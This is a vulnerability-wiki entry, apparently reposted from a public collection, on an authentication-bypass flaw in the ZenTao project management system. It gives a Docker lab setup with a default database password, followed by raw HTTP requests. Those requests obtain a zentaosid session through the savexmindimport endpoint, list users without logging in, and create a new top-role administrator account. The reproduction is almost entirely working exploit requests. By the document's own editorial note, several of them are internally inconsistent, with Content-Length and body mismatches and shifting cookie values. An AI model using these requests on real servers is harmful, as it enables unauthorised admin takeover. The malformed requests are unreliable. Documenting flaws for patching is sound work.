





# 禅道-zentaosid-cookie-身份认证绕过漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：禅道项目管理Web系统
- 文献类型：身份认证绕过实验
- 版本、权限及部署边界：文中开源16.x–18.12前、企业6.x–8.12前、旗舰3.x–4.12前；测试开源18.5
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 目录名包含漏洞动作不是产品且桌面分类错；元数据仅开源遗漏两个分支
2. 最初savexmindimport请求与后续zentaosid来源/会话状态关联缺文字说明，Cookie值还改变，不能理解为任意cookie即可绕过
3. GET含Content-Length11却无body，创建用户JSON仍长度11且缺JSON Content-Type，原始请求不自洽
4. 创建管理员到服务器接管需另一步执行途径，不能自动等同RCE
5. 厂商链接为手册但非具体漏洞公告，修复应落实各分支版本；实验默认数据库密码/用户密码需限定测试并脱敏

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.zentao.net/book/zentaoprohelp/41.html>
- 原文参考链接（未重新核验）：<https://www.zentao.net/book/zentaopms/405.html>
- 原文参考链接（未重新核验）：<http://your-ip:8084`>
- 原文参考链接（未重新核验）：<https://www.zentao.net/>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

禅道项目管理系统存在身份认证绕过漏洞，远程攻击者利用该漏洞可以绕过身份认证，调用任意 API 接口创建用户或修改管理员用户的密码，以管理员用户登录该系统，进而接管服务器。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

## 漏洞影响

```
16.x <= 禅道 < 18.12（开源版）
6.x <= 禅道 < 8.12（企业版）
3.x <= 禅道 < 4.12（旗舰版）
```

## 环境搭建

执行如下命令启动一个禅道 18.5 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.5
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`。

## 漏洞复现

```
POST /api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=upkbbehwgfscwizoglpw&branch=zqbcsfncxlpopmrvchsu HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 11

fields=true
```




未添加 `zentaosid` 时，访问 `/api.php/v1/users` 提示 `{"error":"Unauthorized"}`：

```
GET /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 11
```




添加 `zentaosid` 绕过认证：

```
GET /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: zentaosid=bdfda9cd81c43017703931d473ccca98;
Content-Length: 11
```




通过该漏洞添加用户：

```
POST /api.php/v1/users HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: zentaosid=93441fc0301811a03ad2285ae52e9591;
Content-Length: 11

{
    "account":"threeki",
    "password":"thr33..",
    "realname":"threeki",
    "role":"top",
    "group":"1"
}

```




使用添加的账号 `threeki/thr33..` 成功登录：




## 漏洞修复

升级至最新版本 https://www.zentao.net/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
